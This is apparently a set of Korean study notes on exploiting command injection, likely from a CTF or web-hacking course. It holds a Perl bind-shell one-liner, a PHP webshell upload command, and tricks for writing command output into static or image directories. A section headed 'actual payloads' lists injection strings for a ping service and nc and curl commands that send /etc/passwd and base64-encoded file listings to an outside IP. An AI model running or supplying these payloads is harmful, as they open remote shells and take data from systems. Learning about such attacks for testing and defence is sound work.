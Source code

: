	#언어를 이용한 바인드 셸

	perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'

### 파일 생성
애플리케이션 상에서 직접 확인할 수 있는 파일 시스템 경로에 명령어의 실행 결과를 저장한 파일을 생성하는 방법이 있음
예를 들어, 애플리케이션에서 이미지 파일을 "/img" 디렉터리 내에 저장한다면 명령어의 실행 결과를 "/img/result.jpg"로 저장하고 해당 경로에 접속해 명령어 실행 결과를 확인


### Script Engine
웹 서버는 지정된 경로에 존재하는 파일을 브라우저에 표시함
만약 커맨드 인젝션 취약점이 발생하고, 웹 서버가 지정한 경로를 알고 있다면 해당 위치에 셸을 실행하는 웹셸(Webshell) 파일을 업로드하고, 
해당 페이지에 접속해 셸을 실행하고 실행 결과를 확인할 수 있음
아래는 웹셸을 업로드하는 예시
PHP 외에도 JSP, ASP 등 웹 서버가 해석 가능한 파일을 만들어 접근할 수 있음

	#webshell 등록 명령어

	printf '<?=system($_GET[0])?>' > /var/www/html/uploads/shell.php


### Static File Directory
프레임워크 또는 웹 애플리케이션에서는 JS/CSS/Img 등 정적 리소스를 다루기 위해 Static File Directory를 사용
해당 디렉터리에 실행한 명령어의 결과를 파일로 생성하고, 해당 파일에 접근해 결과를 확인할 수 있음

대표적인 예시로 파이썬의 Flask 프레임워크 기본 설정에서는 Static File Directory의 이름이 static으로 설정되어 있음
만약 해당 디렉터리를 사용하지 않는 환경이더라도 static 디렉터리를 생성하는 명령어를 실행하고 파일을 생성하면 됨
이때 프레임워크가 동작하는 디렉터리에 파일 생성 권한이 없다면 해당 방법을 이용한 공격은 불가능

아래는 static 디렉터리를 생성하고, id 명령어의 실행 결과를 생성한 디렉터리 내 "result.txt" 파일에 저장함
해당 명령어가 실행된 이후 "static/result.txt" 페이지에 방문하면 명령어 실행 결과를 확인할 수 있음

	#Static File Directory를 이용한 실행 결과 확인

	mkdir static; id > static/result.txt


# 실제 페이로드

### Ping 서비스 Command Injection
	0.0.0.0";ls -al "./
	0.0.0.0"; cat fla*; ls "./

### nc + 리버스쉘
	http://211.250.216.149/
	cat /etc/passwd | nc 211.250.216.149 7000
	nc -l -p 7000
	nc -l -p 7000 > received_data.txt

### curl + 리버스쉘
	sudo fuser -k 7000/tcp
	sudo netstat -tuln | grep 7000
	curl "http://211.250.216.149:7000/?$(ls -al|base64 -w0)"
